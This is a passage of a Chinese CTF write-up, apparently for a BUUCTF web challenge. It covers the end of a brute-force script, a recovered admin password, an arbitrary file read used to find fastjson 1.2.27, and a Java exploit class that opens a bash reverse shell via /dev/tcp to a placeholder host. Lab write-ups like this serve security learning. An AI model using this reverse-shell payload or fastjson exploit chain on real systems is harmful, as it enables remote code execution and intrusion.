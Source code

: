 ```python
            else:
                top=mid-1
    if flag==f1:
        break

```

buu跑的容易崩

只能一部分一部分慢慢跑。

最后爆破出密码是

no_0ne_kn0w_th1s

账号根据提示是admin



登录进去是一个显示图片的玩意

查看源码可以看到这个东西的源码

请求图片时存在任意文件读取

##  springboot

springboot项目的pom.xml存放了外部依赖

可以看到用了阿里的fastjson，版本1.2.27，刚好可以被利用

## fastjson

https://github.com/CaijiOrz/fastjson-1.2.47-RCE

![image-20210324163106076](image-20210324163106076.png)

刚好那个东西的请求方式也是json格式

![image-20210324163152894](image-20210324163152894.png)

就可以利用

### 编译exploit.java

```java
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"});
        }catch(Exception e){ 
            e.printStackTrace();
        }   
    }   
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }   
}
```
